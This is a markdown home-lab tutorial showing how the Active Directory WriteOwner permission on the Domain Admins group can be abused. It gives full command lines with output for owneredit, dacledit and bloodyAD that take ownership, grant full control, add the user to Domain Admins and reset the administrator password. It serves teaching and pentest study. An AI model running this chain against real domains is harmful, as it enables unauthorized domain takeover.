


# 🔐 Write Owner

The WriteOwner permission allows a user to change the ownership of an object to a different user or principal, including one controlled by an attacker. Consequently, an attacker can exploit this permission to take ownership of a target object.

Once the we successfully assumes ownership, they can fully manipulate the object. This includes modifying permissions to grant themselves or others Full Control over the object. For example, the attacker could assign Full Control permissions, allowing unrestricted access to read, write, or delete the object.

#### Scenario

Let’s suppose we have the credentials of user **Haseeb**:

- **Username**: `Haseeb`
- **Password**: `Password123`

And `Haseeb` has a **WriteOwner** on another group: **Domain Admins**.

## Setting Up a Misconfiguration

We have a group name Domain Admins we move it from group section to user folder just for ease


Right-click and go to:  
**Properties → Security**


### Add User

Click on **Add**:



Here, add user **Haseeb** and click **OK**:


---

### Modify Permissions

Now go to the **Advanced** option of group **Domain Admins** and edit permissions for user **Haseeb**:



Edit the setting for user Haseeb


Check the box for **Modify permissions**:


##  Enumeration from BloodHound

#### Data Collection using rust hound

```
rusthound --domain furious.local -u Haseeb -p Password123 --output .
```
---

Now, when we enumerate it using **BloodHound**, we can see that **Haseeb** has **WriteOwner** permission on **Domain Admins**.


## Exploiting Target User

To exploit this misconfiguration, we use three utilities:

1. **owneredit** – to change owner of the object  
2. **dacledit** – to grant `Haseeb` full control over the user `Domain Admins`  
3. **BloodyAD** – to change the password of user `administrator`, since we now have full access  

---

### First: Set Haseeb as the New Owner of Domain Admin

Here, `CN=DOMAIN ADMINS,CN=USERS,DC=FURIOUS,DC=LOCAL` is the Distinguished Name (DN) of the Domain Admins group.  
But we moved it to the user folder, that's why the CN is set to `Users`.

```bash
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/write-owner/rusthound]
└─$ impacket-owneredit -action write -new-owner 'haseeb' -target-dn 'CN=DOMAIN ADMINS,CN=USERS,DC=FURIOUS,DC=LOCAL' 'furious.local'/'haseeb':'Password123' -dc-ip 192.168.129.140

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-3290932372-4080220911-1111251399-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=furious,DC=local
[*] OwnerSid modified successfully!
```

### Giving Full Access to Haseeb

If we want to change the password of an `Administrator` user, we will fail.
No doubt we are owner, but we are **not** a member of the `Domain Admins` group.
So, first we have to **add self to that group**.

In order to do that, we must first grant Haseeb **full control** over the Domain Admins object.

I have explained the difference between *owner of object* and *full control on object* at the bottom.

```bash                                                                                         
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/write-owner/rusthound]
└─$ dacledit.py -action 'write' -rights 'FullControl' -principal 'haseeb' -target-dn 'CN=Domain Admins,CN=Users,DC=furious,DC=local' 'furious.local/haseeb':'Password123'        

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250509-073205.bak
[*] DACL modified successfully!
```    


### Adding Haseeb to Domain Admins Group

Now we add self to Domain Admins group:

```bash       
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/write-owner/rusthound]
└─$ bloodyAD --host "192.168.129.140" -d "furious.local" -u "Haseeb" -p "Password123" add groupMember "Domain Admins" "Haseeb"

[+] Haseeb added to Domain Admins
```                                                                                                       

### Changing the Password of Administrator

Finally, we change the password of the `administrator` user to `Password123`:

```bash                                         
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/write-owner/rusthound]
└─$ bloodyAD --host "192.168.129.140" -d "furious.local" -u "Haseeb" -p "Password123" set password "administrator" "Password123"
[+] Password changed successfully!
                                       
```

**Point**: The last step and second last step are optional depending on your goal.


### Difference Between Owner of an Object and Full Control on an Object (Active Directory)

### 1. **Owner of an Object**

The owner is the principal (user or group) listed in the object's **security descriptor** as its owner.

- **Automatically has the right to modify the DACL** (Discretionary Access Control List).
- This means the owner can **grant themselves additional permissions**, such as `GenericAll` or `WriteProperty`.
- However, until they do so, they **do not** have the right to perform actions like changing group membership or resetting a password.

> **Key Point**: Ownership is about potential control – you must explicitly grant yourself access before you can take full action.

---

### 2. **Full Control on an Object**

Also referred to as having **`GenericAll`** permission.

- Includes all rights: `Read`, `Write`, `WriteDACL`, `WriteOwner`, `ResetPassword`, `Add/Remove members`, etc.
- You can manage all aspects of the object **without needing to change the DACL**.
- Used in many privilege escalation attacks.

> **Key Point**: Full control means immediate and complete access.

---

